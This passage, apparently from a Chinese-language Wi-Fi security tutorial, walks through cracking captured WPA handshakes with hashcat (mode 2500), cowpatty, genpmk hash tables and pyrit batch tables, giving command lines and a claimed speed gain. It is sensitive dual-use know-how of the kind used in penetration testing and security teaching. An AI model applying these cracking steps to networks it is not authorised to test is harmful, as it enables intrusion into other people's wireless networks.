 使用`-m`指定编号

```
用法：hashcat   -m 2500   hccap文件  字典文件
# hashcat -m 2500 ~/wpahash.hccap /usr/share/dict/wordlist-top4800-probable.txt
```

## cowpatty 工具破解密码

cowpatty 功能与 aircrack-ng 类似

```
cowpatty -f  字典文件  -r  握手包文件  -s  ESSID
```

{% asset_img 21.png %}

## hash-table 加速破解

可通过对字典文件生成 hashtable，加快破解速度。但是对字典生成 hash 表文件需要消耗大量时间。

```
genpmk  -f  字典文件  -d  输出的hash表文件  -s  ESSID
```

{% asset_img 22.png %}

然后再用 cowpatty 破解

```
cowpatty  -d  hash表文件  -r  握手包文件  -s  ESSID
```

{% asset_img 23.png %}

在本机的速度提升约有 100 倍。

## batch-table 加速破解

生成 batch-table 与 hash-table 一样，需要耗费大量时间

先载入字典文件

`pyrit -i 字典文件 import_passwords`

添加 ESSID，可添加多个

`pyrit -e ESSID create_essid`

{% asset_img 24.png %}

生成 batch-table

`pyrit batch`

最后开始破解

`pyrit -e ESSID -r 握手包 attack_batch`

{% asset_img 25.png %}
